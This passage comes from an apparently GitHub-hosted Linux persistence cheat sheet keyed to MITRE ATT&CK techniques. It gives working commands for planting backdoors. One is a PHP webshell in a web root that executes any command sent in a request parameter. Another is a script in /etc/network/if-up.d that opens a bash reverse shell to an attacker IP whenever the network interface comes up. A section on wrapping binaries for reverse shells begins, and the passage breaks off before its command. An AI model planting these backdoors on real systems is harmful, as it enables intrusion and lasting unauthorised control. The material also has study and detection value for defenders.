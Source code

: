 How does it work? At each login, pam motd(8) as the root user invokes executable scripts in /etc/update-motd.d/*, and this information is concatenated in /var/run/motd. The run-parts(8) –lsbsysinit option controls the order in which scripts are executed (essentially alphabetical order, with a few exceptions). 

## Creating Webshell as backdoor

[MITRE ID: T1505.003](https://attack.mitre.org/techniques/T1505/003/)

Adversary commonly placed a webshell for later access. A simple PoC as shown below.

	$ Command:
	victim@server$ WEBSHELL='bdoor.php'
	victim@server$ PATH2WEBSHELL=/var/www/html/secretfolder/$WEBSHELL

	victim@server$ cat << EOF > $PATH2WEBSHELL
	# Creating webshell 
	<?php
	    if (isset($_REQUEST['cmd'])) {
	        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	    }
	?>
	EOF

## Creating Network startup as backdoor

There are four directories in which scripts can be placed which will always be run for any interface during certain phases of ifup and ifdown commands. One of them is `/etc/network/if-up.d/`. Scripts in this directory are run after bringing the interface up.

	$ Command:
	
	root@victim$ STARTUPNAME='upsdoor'
	root@victim$ PATH2STARTUPNAME=/etc/network/if-up.d/$STARTUPNAME

	root@victim$ cat << EOF > $PATH2STARTUPNAME
	#!/bin/sh
	# Creating startup service 
	bash -i >& /dev/tcp/$ATTACKERIP/8888 0>&1 & 2>/dev/null
	EOF

	root@victim$ chmod +x $PATH2STARTUPNAME

## Creating binary wrapper

[MITRE ID: T1574.008](https://attack.mitre.org/techniques/T1574/008/)

Adversary may created a wrapper from a legitimate binary as simple as shown below. Whenever, any user type command `date`, a reverse shell is spawned to the C2.

	$ Command:
	